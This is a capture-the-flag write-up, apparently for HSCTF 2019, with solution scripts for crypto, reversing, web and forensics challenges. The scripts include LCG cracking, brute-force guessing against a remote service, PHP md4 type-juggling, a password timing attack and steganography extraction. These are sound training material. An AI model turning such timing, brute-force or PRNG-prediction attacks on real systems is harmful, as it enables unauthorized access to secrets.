


### Solution:
Here's the problem

```python
import random

good_image = """
				TUX's KITCHEN
                    ..- - .              
                   '        `.           
                  '.- .  .--. .          
                 |: _ | :  _ :|          
                 |`(@)--`.(@) |          
                 : .'     `-, :          
                 :(_____.-'.' `          
                 : `-.__.-'   :          
                 `  _.    _.   .         
                /  /  `_ '  \\    .       
               .  :          \\   \\      
              .  : _      __  .\\   .     
             .  /             : `.  \\    
            :  /      '        : `.  .   
           '  `      :          : :  `.  
         .`_ :       :          / '   |  
         :' \\ .      :           '__  :  
      .--'   \\`-._    .      .' :    `).  
    ..|       \\   )          :   '._.'  : 
   ;           \\-'.        ..:         / 
   '.           \\  - ....-   |        '  
      -.         :   _____   |      .'   
        ` -.    .'--       --`.   .'     
            `--                --    
"""

flag = open('flag.txt','r').read()
MY_LUCKY_NUMBER = 29486316

# I need to bake special stuff!
def bake_it():
	s = 0
	for i in range(random.randint(10000,99999)):
		s = random.randint(100000000000,999999999999)
	s -= random.randint(232,24895235)
	return random.randint(100000000000,999999999999)

# Create my random mess
def rand0m_mess(food,key):
	mess = []
	mess.append(key)
	art = key
	bart = bake_it()
	cart = bake_it()
	dart = bake_it()
	for i in range(len(food)-1):
		art = (art*bart+cart)%dart
		mess.append(art)
	return mess

# Gotta prepare the food!!!
def prepare(food):
	good_food = []
	for i in range(len(food)):
		good_food.append(food[i]^MY_LUCKY_NUMBER)
	for k in range(len(good_food)):
		good_food[i] += MY_LUCKY_NUMBER
	return good_food

# Bake it!!!
def final_baking(food,key):
	baked = rand0m_mess(food,key)
	treasure = []
	for i in range(len(baked)):
		treasure.append(ord(food[i])*baked[i])
	treasure = prepare(treasure)
	return treasure

print(good_image)
key = bake_it()
print(final_baking(flag,key))
```
great image .So at first we reversed the prepared treasure,but look closely here 
```
for k in range(len(good_food)):
	good_food[i] += MY_LUCKY_NUMBER
```
Iterator is k but i is used that is constant So we need to just xor for all the numbers with the lucky number.Then to reverse this line 
`treasure.append(ord(food[i])*baked[i])` 

I  need to find `baked[i]` for which I see the random_mess function which is nothing other than [LCG](https://en.wikipedia.org/wiki/Linear_congruential_generator) itself.
So we know the starting of flag is 'hsctf{'.Then accordingly we calculated first six values of the sequence and with the help of works of msm from p4team on lcg we used the [script](assets/crypto/fullscript.py) to get the flag .This might fail sometime because of gcd(modulo , numbers ) !=1 or modulus isn't prime .So we have to test this for a while to get the result.

```python
from functools import reduce
from gmpy2 import *

def crack_unknown_increment(states, modulus, multiplier):
    increment = (states[1] - states[0]*multiplier) % modulus
    return modulus, multiplier, increment

def crack_unknown_multiplier(states, modulus):
    multiplier = (states[2] - states[1]) * invert(states[1] - states[0], modulus) % modulus
    return crack_unknown_increment(states, modulus, multiplier)

def crack_unknown_modulus(states):
    diffs = [s1 - s0 for s0, s1 in zip(states, states[1:])]
    zeroes = [t2*t0 - t1*t1 for t0, t1, t2 in zip(diffs, diffs[1:], diffs[2:])]
    modulus = abs(reduce(gcd, zeroes))
    return crack_unknown_multiplier(states, modulus)

st=input("enter the states:")
g=st
for i in range(len(g)):
	g[i]^= 29486316         # the lucky number
#print("treasure",g)        #check for purpose 
flag="hsctf{"
m=[]
for i in range(len(flag)):
	if g[i]%ord(flag[i])==0:
		m+=[g[i]//ord(flag[i])]
		
n,k,d = crack_unknown_modulus(m)
print('modulo-> %d \t multiplier-> %d \t increment -> %d ' % (n,k,d))

w=[m[0]]
for q in range(1,70):
    w+= [(w[q-1]*k+d) % n]       # the sequence

if m==w[:6]:
    print("this worked")         # usual check
ans=[]
for i in range(70):
    ans+=[g[i]//w[i]]            #generating flag

print(''.join(chr(i) for i in ans))

```

If you want to test this for yourself here are the [used numbers](assets/crypto/ans.txt):-
Here is the flag after we ran the script `hsctf{thiii111iiiss_isssss_yo0ur_b1rthd4y_s0ng_it_isnt_very_long_6621}` 

# **REVERSAL**

## I Thought Trig Was Really Easy-:
> description: 


### Solution:

The problem is here as:

```python
import math

def nice_math(x, y):
    return round(x + y*math.cos(math.pi * x))

lots_of_nums = lambda n,a:(lambda r:[*r,n-sum(r)])(range(n//a-a//2,n//a+a//2+a%2))

def get_number(char):
    return ord(char) - 96

inp = input("Enter the text: ")

out = []
for i in range(0, len(inp)):
    for j in lots_of_nums(nice_math(get_number(inp[i]), len(inp) - i), i + 1):
        out.append(nice_math(j, i + 1))

ans = [-25, 1, 10, 7, 4, 7, 2, 9, 3, 8, 1, 10,
            3, -1, -8, 3, -6, 5, -4, 7, -5, 8, -3,
            10, -1, 12, 10, 7, -6, 9, -4, 11, -2,
            13, -2, -11, 6, -9, 8, -7, 10, -5, 12,
            1, -12, 7, -10, 9, -8, 11, -6, 13, -4,
            11, 6, -13, 8, -11, 10, -9, 12, -7, 14,
            -5, 22, -16, 7, -14, 9, -12, 11, -10, 13,
            -8, 15, -6, -2, 2, -21, 4, -19, 6, -17, 8,
            -15, 10, -13, 12, -11, 5]
if (out == ans):
    print("That is correct! Flag: hsctf{" + inp + "}")
else:
    print("Nope sorry, try again!")
```
So we see lot_of_nums which is  very wierd trying to reverse the function looks difficult .So we see that each position of the flag depends upon the length of the flag and the character in this line `nice_math(get_number(inp[i]), len(inp) - i), i + 1`.That's nice_math function also looks difficult to reverse.

So I tried to simply bruteforce it on the set of characters and we calculated the length of the flag on the basis of length of list ans `(((12+1)*(12+2)/2)-1)`.This was faster to do so i did it!

 
```python
import math

def nice_math(x, y):
	return round(x + y*math.cos(math.pi * x))

lots_of_nums = lambda n,a:(lambda r:[*r,n-sum(r)])(range(n//a-a//2,n//a+a//2+a%2))

def get_number(char):
    return ord(char) - 96
charset="_abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!:@#$%*-'"
inp = ""
flag=""
l=1
while l<=12:
	x=0
	while x<len(charset):
		inp=flag+charset[x]+"b"*(12-l)
		assert(len(inp)==12)
		out = []
		for i in range(0, len(inp)):
		    for j in lots_of_nums(nice_math(get_number(inp[i]), len(inp) - i), i + 1):
		        out.append(nice_math(j, i + 1))

		ans = [-25, 1, 10, 7, 4, 7, 2, 9, 3, 8, 1, 10,
		            3, -1, -8, 3, -6, 5, -4, 7, -5, 8, -3,
		            10, -1, 12, 10, 7, -6, 9, -4, 11, -2,
		            13, -2, -11, 6, -9, 8, -7, 10, -5, 12,
		            1, -12, 7, -10, 9, -8, 11, -6, 13, -4,
		            11, 6, -13, 8, -11, 10, -9, 12, -7, 14,
		            -5, 22, -16, 7, -14, 9, -12, 11, -10, 13,
		            -8, 15, -6, -2, 2, -21, 4, -19, 6, -17, 8,
		            -15, 10, -13, 12, -11, 5]
		g=((l+1)*(l+2)//2)-1
		if(out[:g]==ans[:g]):
			flag+=charset[x]
			break
		x+=1
	l+=1

print('The flag is:hsctf{'+flag+'}')
```
The flag is: `hsctf{:hyperthonk:}`


## Tux Talk Show 2019:
> description: 





### Solution:

For this challenge it says about a lucky number.
```
Welcome to Tux Talk Show 2019!!!
Enter your lucky number:
```
So we opened the ghidra for pseudocode:
```c
// modified a bit by me
  int main(int argc,char **argv)

{
  long lVar1;
  int rand;
  time_t time;
  basic_ostream *this;
  long in_FS_OFFSET;
  int input;
  int i;
  int acc;
  int j;
  int array [6];
  basic_string output_string [32];
  basic_istream output_stream [520];
  long stack_cookie_i_guess;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  basic_ifstream((char *)output_stream,0x1020b0);
  time = time((time_t *)0x0);
  srand((uint)time);
                    /* try { // try from 0010127e to 001012c0 has its CatchHandler @ 00101493 */
  this = operator<<<std--char_traits<char>>
                   ((basic_ostream *)cout,"Welcome to Tux Talk Show 2019!!!");
  operator<<((basic_ostream<char,std--char_traits<char>> *)this,endl<char,std--char_traits<char>>);
  operator<<<std--char_traits<char>>((basic_ostream *)cout,"Enter your lucky number: ");
  operator>>((basic_istream<char,std--char_traits<char>> *)cin,&input);
  array[0] = 0x79;
  array[1] = 0x12c97f;
  array[2] = 0x135f0f8;
  array[3] = 0x74acbc6;
  array[4] = 0x56c614e;
  array[5] = -0x1e;
  i = 0;
  while (i < 6) {
    rand = rand();
    array[(long)i] = array[(long)i] - (rand % 10 + -1);
    i = i + 1;
  }
  acc = 0;
  j = 0;
  while (j < 6) {
    acc = acc + array[(long)j];
    j = j + 1;
  }
  if (acc == input) {
    ...
  }
  return 0;
}
```
here we have 6 numbers in an array and its being added after subtracting this `(iVar1 % 10 + -1)`
and if our assumed number is correct than it will give the flag for us.

So two ways we can solve it ,during the team discussion over this challenge I told them that I can write brute as the numbers are in the small range i.e 51 .Meanwhile the other way as my teammate suggested was to attack the rand function . I would explain both here.

```python
from pwn import *

a=[121, 1231231, 20312312, 122342342, 90988878, -30]
host="rev.hsctf.com"
port=6767

m=sum(a)-48
g=sum(a)+6 # setting the range
inp=m+16    #this is where i am guessing the number and try to run multiple times in the loop
while inp<g+1:
    try:
        s=remote(host,port)
        print(s.recvline())
        s.sendline(str(inp))
        j=s.recvline()
	if "hsctf{" in j:
	    print(j)
	    s.close()
            exit(0)
        print(j)
    except:
        s.close()
        sleep(1)
        continue
```
Luckily, I got the flag from there `hsctf{n1ce_j0b_w4th_r4ndom_gue33ing}`
      
The second approach is here, save it as time.c and compile to a.out:
```c
#include "stdio.h"
#include "stdlib.h"

int main(int argc, char *argv[]) {

    time_t t;
    srand((unsigned) time(&t));    

    int array[6] = {0x79, 0x12c97f, 0x135f0f8, 0x74acbc6,  0x56c614e, -0x1e};

    int acc = 0;
    for(int i = 0; i < 6; i++) acc += array[(long)i] - (rand() % 10 + -1);

    printf("%d\n", acc);
    
    return 0;
}
```
and use it over this script 
```python
from pwn import *
import time

host = "rev.hsctf.com"
port = 6767


s = remote(host,port)
p = process("./a.out")

res = p.recvline()

s.recvuntil(':')
s.sendline(res)
s.interactive()
```
That's it , An attack over the rand function while running the netcat server.


## Bitecode -:
> description: 





### Solution:
This Challenge was done by Lucas my teammate So I will try to explain as far as i know as he is not writing writeups.

http://www.javadecompilers.com/ Use it for decompiling the given class file to [java file](assets/reversing/BiteCode.java).

So lot of ifs for checking single characters of the flag one by one .
So using regexes he extracted them and tried to write a brute to choose them.

[Watch this video](https://youtu.be/rYOZHB_ABlo)
[](https://youtu.be/rYOZHB_ABlo)


<video src="assets/reversing/regexislife.mp4" width="320" height="200" controls preload></video>

So that's it to write a script to get the flag:smiley:.
```python
b = ['A'] * 28
for i in range(0xff):
    if (i ^ 189074585) - 189074673 == 0:
        b[0] = i
    if (i ^ -227215135) - -227215214 == 0:
        b[1] = i
    if (i ^ 19240864) - 19240899 == 0:
        b[2] = i
    if (i ^ 245881291) - 245881279 == 0:
        b[3] = i
    if (i ^ 233391094) - 233390992 == 0:
        b[4] = i
    if (i ^ 56978353) - 56978378 == 0:
        b[5] = i
    if (i ^ -213838484) - -213838565 == 0:
        b[6] = i
    if (i ^ -231671677) - -231671605 == 0:
        b[7] = i
    if (i ^ -132473862) - -132473910 == 0:
        b[8] = i
    if (i ^ 143449065) - 143449053 == 0:
        b[9] = i
    if (i ^ 108102484) - 108102411 == 0:
        b[10] = i
    if (i ^ 71123188) - 71123073 == 0:
        b[11] = i
    if (i ^ 146096006) - 146096089 == 0:
        b[12] = i
    if (i ^ -173487738) - -173487628 == 0:
        b[13] = i
    if (i ^ -116507045) - -116507132 == 0:
        b[14] = i
    if (i ^ -68013365) - -68013319 == 0:
        b[15] = i
    if (i ^ 171414622) - 171414529 == 0:
        b[16] = i
    if (i ^ 94412444) - 94412524 == 0:
        b[17] = i
    if (i ^ 197453081) - 197453163 == 0:
        b[18] = i
    if (i ^ -50622153) - -50622201 == 0:
        b[19] = i
    if (i ^ 190140381) - 190140290 == 0:
        b[20] = i
    if (i ^ 77383944) - 77383996 == 0:
        b[21] = i
    if (i ^ -41590082) - -41590047 == 0:
        b[22] = i
    if (i ^ 61204303) - 61204283 == 0:
        b[23] = i
    if (i ^ -24637751) - -24637791 == 0:
        b[24] = i
    if (i ^ 61697107) - 61697122 == 0:
        b[25] = i
    if (i ^ 267894989) - 267895017 == 0:
        b[26] = i
print(''.join([chr(i) for i in b[:-1]]))
```
Here's the flag `hsctf{wH04_u_r_2_pr0_4_th1$}`


# **WEB**

## MD5-- :
> description: 





### Solution:

```php
<?php
$flag = file_get_contents("/flag");

if (!isset($_GET["md4"]))
{
    highlight_file(__FILE__);
    die();
}

if ($_GET["md4"] == hash("md4", $_GET["md4"]))
{
    echo $flag;
}
else
{
    echo "bad";
}
?>
```
From this you can see that flag contains the data of flag file and then value of md4 variable is set and after its value is compared to the md4(value) and then only we can obtain flag.

One thing to note that '==' comparison is used. This is where Type juggling comes. See for more [PHP Magic Tricks: Type Juggling](https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf)

So what we will try to do to pick up a string which prefix would be  '0e' for a reason then adding numbers ahead then calculate its md4 which will be equal to `/0e[0-9]{30}/`.So when the comparison is to be made then the strings will be treated as exponent of 0 (like 0e4=0). Thus both sides will be zero hence we will have our flag.
```php
<?php
echo intval('0e123' == '0e245'); // result 1, which means TRUE
echo "\n";
```
Here's the [script](assets/web/md4.py)

```python
import hashlib
import re,sys
from Crypto.Hash import MD4

def breakit():
    prefix="0e"
    s=0
    while 1:
                s+=1
                st=prefix+str(s)
                hashed_s= hashlib.new('md4', st).hexdigest()
                if hashed_s[:2]=="0e" and hashed_s[2:].isdigit():
                    print "[+] found! md4( {} ) ---> {}".format(st, hashed_s)
                    sys.exit(0)
                if s%10000000==0:
                    print("[+] %d iterations done"%(s))

breakit()
```
Running this we get this after more than 250000000 iterations.
> [+] found! md4( 0e251288019 ) ---> 0e874956163641961271069404332409

Here's our flag `hsctf{php_type_juggling_is_fun}`

## Networked Password -:
> description: 





### Solution:

We are given a https://networked-password.web.chal.hsctf.com/ which prompts us to submit a password having a simple form to fill it up, but from the description we see thats its delays some thing we don't know what until i saw a time differnece in our inputs like for a gibberish we see fast output but for a flag like "hsctf{" it delayed a bit. And there was a hint given as well-:

> Hint : You know the flag format



So after attempting few times i got that every character adds 0.45-0.5 seconds.But running this script you need a better internet connection.So i tried running using online interpeter there's are ton of available. You can use https://repl.it/languages/python3 or https://codeanywhere.com/editor/ you need these because of their fast servers.

And At last my first *timing attack challenge*. 
```python
import requests
import datetime

URL="https://networked-password.web.chal.hsctf.com/"
charset="_abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%*-'"
flag="hsctf{"

DATA={'password':flag}
r=requests.post(url=URL,data=DATA)
realtime=r.elapsed.total_seconds()
print("The Current Time:"+str(realtime)) # printing for debugging

for i in range(len(charset)):
    DATA={'password':flag+charset[i]}
    r=requests.post(url=URL,data=DATA)
    nexttime=r.elapsed.total_seconds()
    print("[+]Testing:"+str(nexttime))   # printing for debugging
    if(realtime+0.4<nexttime):
        realtime=nexttime
        if(charset[i]=='}'):
            print("The final flag is"+flag )
            exit(0)
        flag+=charset[i]
        print("Current flag->"+ flag)
        i=0
exit(0)
```
Here's the flag after so much running `hsctf{sm0l_fl4g}`
Glad they had the small flag.


# **FORENSICS**

## Double Trouble :

> description: 




### Solution:

After downloading image you see both are quite similar .


    

So, First thing i did to check hexes and I see bytes aren't similar . Then first thing first for a forensic challenge [stegsolve](https://github.com/zardus/ctf-tools/blob/master/stegsolve/install).

Opening it on command line `java -jar stegsolve.jar`

I tried image combiner to do AND , OR , XOR operations.But no luck.
So i tried strings exiftool then reached zsteg and the output was:
```
streaker@DESKTOP-DS7FIJL:$ zsteg koala.png
/usr/lib/ruby/2.5.0/open3.rb:199: warning: Insecure world writable dir /mnt/c in PATH, mode 040777
imagedata           .. text: "\n\n\n\n\n\n !"
b1,b,lsb,xy         .. text: "%q&),52+"
b1,bgr,lsb,xy       .. text: "<https://www.mediafire.com/file/0n67qsooy8hcy30/hmmm.txt/fileA"
b2,b,lsb,xy         .. text: "6Z?gdF$T"
b2,b,msb,xy         .. text: "{sXsE4}8"
b3,bgr,msb,xy       .. text: "\";Cc_$y)*I"
b4,b,msb,xy         .. text: "%BE##cgv"
streaker@DESKTOP-DS7FIJL:$ zsteg koala2.png
/usr/lib/ruby/2.5.0/open3.rb:199: warning: Insecure world writable dir /mnt/c in PATH, mode 040777
imagedata           .. text: "\n\n\n\n\n\n !"
b1,b,lsb,xy         .. text: "%q&),52+"
b1,bgr,lsb,xy       .. text: "passkey: whatdowehavehereJo"
b2,b,lsb,xy         .. text: "6Z?gdF$T"
b2,b,msb,xy         .. text: "{sXsE4}8"
b3,g,lsb,xy         .. text: "Wg8je^i<"
b4,b,msb,xy         .. text: "%BE##cgv"
```

Clearly we got the file link and passkey "whatdowehavehere" ,Jo was mistakenly arrived there.
Checking for file we see

`hmmm.txt: GPG symmetrically encrypted data (AES cipher)`

So decrypting the file with the given key

`gpg --output hmm.txt --decrypt hmmm.txt`

we get the flag `hsctf{koalasarethecutestaren'tthey?}`

By the way we were first team to solve it.:smiley:

**Note**:Love to share the skywriting but for this challenge solving was so wierd that I have to guess a lot with xor's.
